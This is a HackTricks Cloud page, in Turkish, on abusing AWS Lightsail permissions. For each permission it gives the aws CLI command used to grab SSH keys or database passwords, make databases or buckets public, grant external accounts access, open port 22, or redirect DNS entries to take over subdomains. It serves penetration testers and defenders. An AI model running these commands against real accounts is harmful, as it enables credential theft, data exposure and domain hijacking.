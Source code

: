 # AWS - Lightsail Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Lightsail

Lightsail hakkında daha fazla bilgi için:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Önemli bir not olarak, Lightsail **kullanıcıya ait IAM rollerini değil**, AWS tarafından yönetilen bir hesaba ait IAM rollerini kullanır, bu yüzden bu hizmeti kullanarak ayrıcalık yükseltme yapamazsınız. Bununla birlikte, bu hizmette **kod, API anahtarları ve veritabanı bilgileri gibi hassas veriler** bulunabilir.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklerin erişimi için SSH anahtarlarını almanıza olanak sağlar:
```
aws lightsail download-default-key-pair
```
**Potansiyel Etki:** Örnekler içinde hassas bilgiler bulunabilir.

### `lightsail:GetInstanceAccessDetails`

Bu izin, örneklerin erişimi için SSH anahtarları oluşturmanıza izin verecektir:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potansiyel Etki:** Örneklerin içinde hassas bilgiler bulunabilir.

### `lightsail:CreateBucketAccessKey`

Bu izin, bir anahtar almanıza izin verecektir. Bu anahtarla kovete erişebilirsiniz:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potansiyel Etki:** Kova içinde hassas bilgiler bulunabilir.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin, veritabanına erişmek için kimlik bilgilerini almanıza olanak sağlar:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potansiyel Etki:** Veritabanı içinde hassas bilgiler bulunabilir.

### `lightsail:UpdateRelationalDatabase`

Bu izin, veritabanına erişmek için şifreyi değiştirmenize olanak sağlar:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Veritabanı halka açık değilse, bu izinlerle halka açık hale de getirebilirsiniz:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potansiyel Etki:** Veritabanı içinde hassas bilgiler bulunabilir.

### `lightsail:OpenInstancePublicPorts`

Bu izin, portların İnternet'e açılmasına izin verir.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potansiyel Etki:** Hassas bağlantı noktalarına erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, bağlantı noktalarını İnternet'e açmanıza olanak sağlar. Not edin ki, bu çağrıda belirtilmeyen herhangi bir açık bağlantı noktası kapatılacaktır.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potansiyel Etki:** Hassas bağlantı noktalarına erişim sağlar.

### `lightsail:SetResourceAccessForBucket`

Bu izin, ek kimlik bilgisi olmadan bir örneğe bir kova erişimi sağlamaya izin verir.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potansiyel Etki:** Hassas bilgilere sahip kovalara potansiyel yeni erişim.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına kovalara okuma erişimi sağlayabilir veya kovaları herkese açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip kovalara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim sağlayabilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potansiyel Etki:** Özel ECR'den hassas bilgiler alınabilir.

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve bunu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), veya kendisine ait bir SPF kaydı oluşturabilir ve böylece alan adından sahte e-postalar gönderebilir veya hatta ana alan adı kendi IP adresine yönlendirebilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alan adını ele geçirme

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve onu kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), veya kendisine ait bir SPF kaydı oluşturabilir ve alan adından sahte e-postalar göndermesine izin verebilir, hatta ana alan adı için kendi IP adresini ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alan adını ele geçirme

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
